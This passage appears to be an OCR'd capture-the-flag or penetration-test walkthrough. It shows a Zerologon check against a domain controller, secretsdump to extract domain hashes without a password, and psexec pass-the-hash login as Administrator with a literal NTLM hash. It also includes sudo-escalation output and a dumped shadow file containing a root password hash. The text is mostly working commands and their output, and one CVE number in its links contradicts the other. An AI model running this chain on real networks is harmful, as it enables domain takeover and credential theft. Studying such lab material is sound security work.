     ```bash
    specter@VISITOR-KIOSK:~/impacket-master/example$ python3 zerologon_tester.py DC 192.168.20.50
    ```
    
    - This checks if the domain controller is vulnerable to zerologon
    - This vulnerability makes it possible for a hacker to impersonate any computer, including the root domain controller.
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1424
    - https://www.crowdstrike.com/blog/cve-2020-1472-zerologon-security-advisory/
- We execute:
    - 
    
    ```bash
    python3 secretsdump.py -no-pass -just-dc DC\192.168.20.50 > rndDCHash
    ```
    
- Then we execute:
    - 
    
    ```bash
    python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5896fcafdb0d18ea8f84db22fa8347e9 Administrator@192.168.20.50
    ```
    
- We then navigate to the DC machine on the research and development network

```bash
[+] We can sudo without supplying a password!
Matching Defaults entries for specter on VISITOR-KIOSK:
    env_reset, mail_badpass, env_keep+=SPECTER_AI_TOOL, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bi
n\:/sbin\:/bin

User specter may run the following commands on VISITOR-KIOSK:
    (ALL) NOPASSWD: /usr/local/bin/specter-analytics.sh

[+] Possible sudo pwnage!
/usr/local/bin/specter-analytics.sh

```

- unshadow shadow file:
    
    ```bash
    cat shadow
    root:$y$j9T$U0kWOooaSRxbHUG22uwya.$/jCItZX2rANan07x6tfe4dH./Iydnq9sQb2q764Hbk4:19813:0:99999:7:::
    daemon:*:19456:0:99999:7:::
    bin:*:19456:0:99999:7:::
    sys:*:19456:0:99999:7:::
    sync:*:19456:0:99999:7:::
    games:*:19456:0:99999:7:::
    man:*:19456:0:99999:7:::
    lp:*:19456:0:99999:7:::
    mail:*:19456:0:99999:7:::
    news:*:19456:0:99999:7:::
    uucp:*:19456:0:99999:7:::
    proxy:*:19456:0:99999:7:::
    www-data:*:19456:0:99999:7:::
    backup:*:19456:0:99999:7:::
    list:*:19456:0:99999:7:::
    irc:*:19456:0:99999:7:::
    gnats:*:19456:0:99999:7:::
    nobody:*:19456:0:99999:7:::
    _apt:*:19456:0:99999:7:::
    systemd-network:*:19456:0:99999:7:::
    systemd-resolve:*:19456:0:99999:7:::
    tss:*:19456:0:99999:7:::
    messagebus:*:19456:0:99999:7:::